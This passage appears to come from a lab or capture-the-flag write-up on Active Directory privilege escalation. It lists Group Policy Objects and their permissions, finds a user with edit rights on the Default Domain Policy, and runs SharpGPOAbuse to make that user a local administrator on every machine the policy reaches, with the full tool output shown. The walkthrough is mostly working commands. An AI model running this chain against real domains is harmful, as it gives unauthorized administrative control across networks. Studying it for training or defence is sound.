 List policies:
```powershell
Get-DomainGPO

# usncreated               : 5900
# systemflags              : -1946157056
# displayname              : Default Domain Policy
# ...


```

Check permissions:
```powershell
Get-GPPermission -Name "Default Domain Policy" -All


Trustee     : Authenticated Users
TrusteeType : WellKnownGroup
Permission  : GpoApply
Inherited   : False

Trustee     : Domain Admins
TrusteeType : Group
Permission  : GpoCustom
Inherited   : False

Trustee     : Enterprise Admins
TrusteeType : Group
Permission  : GpoCustom
Inherited   : False

Trustee     : charlotte
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False

Trustee     : ENTERPRISE DOMAIN CONTROLLERS
TrusteeType : WellKnownGroup
Permission  : GpoRead
Inherited   : False

Trustee     : SYSTEM
TrusteeType : WellKnownGroup
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```
=> charlotte has `GpoEditDeleteModifySecurity` privs

Abuse privs to add charlotte as local administrator to GPO => effectively making charlotte a local admin on every workstation that updates to the new GPO:
```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"
[+] Domain = secura.yzx
[+] Domain Controller = dc01.secura.yzx
[+] Distinguished Name = CN=Policies,CN=System,DC=secura,DC=yzx
[+] SID Value of charlotte = S-1-5-21-3453094141-4163309614-2941200192-1104
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\secura.yzx\SysVol\secura.yzx\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```
